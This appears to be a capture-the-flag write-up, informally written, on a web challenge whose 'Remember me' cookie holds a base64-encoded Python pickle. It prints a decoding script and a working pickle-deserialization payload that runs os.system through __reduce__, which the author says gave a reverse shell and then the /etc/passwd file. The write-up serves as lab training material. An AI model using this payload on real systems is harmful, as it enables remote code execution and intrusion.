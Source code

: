 
Challenge Description:
We have noticed some weird actions on our website , we think that our passwd file has been compromised , can you make sure that it is secure

Step 1:
when you open the chakenge link you will see a login page i try to do a sqli didn't work then 
Step 2:
i open the page sourse i found a username and password 

![image](https://github.com/user-attachments/assets/47456439-1562-4c0a-b120-66badd4f3268)

step 3:
whe i login there is nothing useful i try bunch of thing like dir fuzzing 

step4:
 i notice there is a Remember me button when i cheaked it  there is new cookie apper after same search i found that cookie is a pickle serialization

step 5: 
i try to deserialize i try to decode as base64 but the apper in a unreadable text 
![image](https://github.com/user-attachments/assets/99a6ae69-8641-46b6-ab96-a843d92f77a7)

step 6:
i try use code i found in the internet but the same thing after same deging i found why the apper in unredable text i write this code to deserialize

```
import pickle
import base64

# Define the class `usr` (or import it if it's defined elsewhere)
class usr:
    def __init__(self, username, password):
       pass
    def __repr__(self):
        return f"usr(username='{self.username}', password='{self.password}')"
cookie = "yourcookie"

# Decode the base64 encoded string
decoded_cookie = base64.b64decode(cookie)

# Deserialize using pickle
deserialized_data = pickle.loads(decoded_cookie)

print(deserialized_data)
```
the output of this code be like this ```usr(username='test', password='test')```

step 7:
Then i write code to make my own serializa cookie i write this code 
```
import pickle
import base64
import subprocess
import os

class RCE(object):
    def __reduce__(self):
        cmd = 'Here can put any command you want '
        return os.system, (cmd,)

class usr(object):
    def __init__(self, username, password):
        self.username = username
        self.password = password

if __name__ == '__main__':
    user = usr(username=RCE(), password=RCE())

    pickled = pickle.dumps(user)
    
    encoded = base64.b64encode(pickled)
    print(encoded)
    encoded_urlsafe = base64.urlsafe_b64encode(pickled)
    print(encoded_urlsafe)
```
Then i make a rev shell then after genrate the cookie change it with cookie in the website 
after getting the rev shell i try to search to found the flag but notheing there called flag.txt samething like that after a reread the Description i notice i will found in the /etc/passwd file 
